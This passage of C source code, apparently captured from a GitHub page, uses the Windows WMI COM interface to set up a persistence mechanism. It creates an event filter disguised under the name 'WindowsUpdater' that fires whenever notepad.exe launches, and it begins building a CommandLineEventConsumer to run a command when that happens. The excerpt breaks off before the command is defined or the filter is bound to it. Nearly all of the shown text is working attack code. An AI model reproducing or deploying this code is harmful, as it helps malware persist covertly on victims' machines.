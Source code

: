 ```c
        printf("Filter class instance wasn't properly spawned\n");
    }else{
        printf("Filter class instance was properly spawned\n");
    }
    //8.Setting __EventFilter Class Name Field
    VARIANT v;
    VariantInit(&v);
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"WindowsUpdater");

    BSTR Name=SysAllocString(L"Name");
    pFilterInstance->lpVtbl->Put(pFilterInstance,Name,0,&v,0);
    VariantClear(&v);

    //9.Setting __EventFilter Class Query Field
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"Select * From __InstanceCreationEvent Within 5 Where TargetInstance Isa \"Win32_Process\" And TargetInstance.Name = \"notepad.exe\"");

    BSTR Query =SysAllocString(L"Query");
    pFilterInstance->lpVtbl->Put(pFilterInstance,Query,0,&v,0);
    VariantClear(&v);


    //10.Setting __EventFilter Class QueryLanguage Field
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"WQL");

    BSTR QueryLanguage =SysAllocString(L"QueryLanguage");
    pFilterInstance->lpVtbl->Put(pFilterInstance,QueryLanguage,0,&v,0);
    VariantClear(&v);

    //11.Setting __EventFilter Class EventNameSpace Field
    VariantInit(&v);
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"root\\cimv2");

    BSTR EventNameSpace =SysAllocString(L"EventNameSpace");
    pFilterInstance->lpVtbl->Put(pFilterInstance,EventNameSpace,0,&v,0);
    VariantClear(&v);

    hres=pServices->lpVtbl->PutInstance(pServices,pFilterInstance,WBEM_FLAG_CREATE_OR_UPDATE,0,0);
    if (FAILED(hres)){
        printf("Modified Event Filter Class Instance was unable to be written\n");
        goto cleanup;
    }else{
        printf("Event Filter class instance was properly written\n");

    }


    //12.Getting CommandLineEventConsumer Class
    hres=pServices->lpVtbl->GetObject(pServices,consumerclass,0,NULL,&pConsumer,NULL);
    if (FAILED(hres)){
        printf("CommandLineEventConsumer class was not properly connected ");
        goto cleanup;
    }else{
       printf("CommandLineEventConsumer class was properly connected\n");
    }
    //13.Spawning CommandLineEventConsumer Class
    hres=pConsumer->lpVtbl->SpawnInstance(pConsumer,0,&pConsumerInstance);
    if (FAILED(hres)){
        printf("Consumer class instance wasn't properly spawned\n");
```